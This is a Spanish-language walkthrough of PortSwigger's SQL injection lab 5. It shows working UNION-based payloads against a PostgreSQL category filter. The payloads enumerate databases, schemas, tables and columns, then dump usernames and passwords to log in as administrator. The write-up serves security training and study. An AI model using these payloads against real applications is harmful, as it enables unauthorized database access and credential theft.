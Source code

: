 ```yaml
---
title: SQLI Lab 5
date: 2024-11-15 12:35:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, listing the database contents on non-Oracle databases
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-5/Portswigger.png
---
```


## Skills

- SQL injection attack, listing the database contents on non-Oracle databases

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categorías` de `productos`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que debemos usar un `ataque UNION` para `recuperar datos` de otras tablas. La `aplicación` tiene una `función` de `inicio de sesión`, y la `base` de `datos` contiene una `tabla` que almacena nombres de `usuario` y `contraseñas`. Hay que `determinar` el `nombre` de esta `tabla` y las `columnas` que contiene, y luego `recuperar` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los usuarios. Para resolver el laboratorio, hay que `iniciar sesión` como el usuario `administrador`

---
## Resolución

Al acceder a la `web` nos sale esto

![](/assets/img/SQLI-Lab-5/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le añadimos una `'` a `category`

![](/assets/img/SQLI-Lab-5/image_2.png)

Si enviamos la `petición` nos dará un `Internal Server Error` debido a que hemos logrado interferir con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-5/image_3.png)

Si usamos este `payload`, ya habremos solucionado el error que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-5/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-5/image_5.png)

Sin embargo si ponemos un `número` de `columnas` que no `existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-5/image_6.png)

A continuación usamos `union select` para señalar ambos campos, podemos descartar que la `base` de `datos` sea `Oracle` porque no nos da un error, si nos diera un error probablemente sería una base de datos `Oracle` y debería añadirle `from dual` al final

```
/filter?category=Lifestyle'+union+select+null,null--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`, es importante inspeccionar la web correctamente, en este caso el resultado de la `SQLI` está en la parte inferior de la web

```
/filter?category=Lifestyle'+union+select+version(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_7.png)

`Listamos` las `bases` de `datos`, la expresión `string_agg(columnName, ',')` es como group_concat de `MySQL`

```
/filter?category=Lifestyle'+union+select+null,string_agg(datname, ',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-5/image_8.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+current_database(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_9.png)

`Listamos` los `esquemas` de la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+null,string_agg(schema_name,',')+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-5/image_10.png)

Para `listar` las `tablas` del esquema `public`

```
/filter?category=Lifestyle'+union+select+null,string_agg(table_name,',')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_11.png)

Si queremos visualizarlo de mejor forma podemos usar

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(table_name), E'\n')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_12.png)

`Enumeramos` las `columnas` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(column_name),E'\n')+from+information_schema.columns+where+table_name='users_nlnyoc'--+-+
```

![](/assets/img/SQLI-Lab-5/image_13.png)

`Obtenemos` el `contenido` de la columna `username_vxtjej` y `password_siipou` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle%27+union+select+username_vxtjej,password_siipou+from+users_nlnyoc--+-+
```

![](/assets/img/SQLI-Lab-5/image_14.png)

Nos `logueamos` como el usuario `administrador`

![](/assets/img/SQLI-Lab-5/image_15.png)
